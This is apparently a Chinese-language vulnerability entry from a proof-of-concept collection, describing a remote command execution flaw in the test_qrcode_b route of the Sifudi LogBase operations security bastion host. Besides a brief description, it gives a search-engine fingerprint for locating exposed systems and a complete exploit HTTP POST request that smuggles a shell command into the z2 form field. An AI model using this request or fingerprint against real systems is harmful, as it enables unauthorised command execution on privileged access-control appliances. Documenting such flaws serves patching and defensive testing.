

# 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

## 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

## 漏洞影响

思福迪 运维安全管理系统

## 网络测绘

```
app="思福迪-LOGBASE"
```

## 漏洞复现

登陆页面


poc

```
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

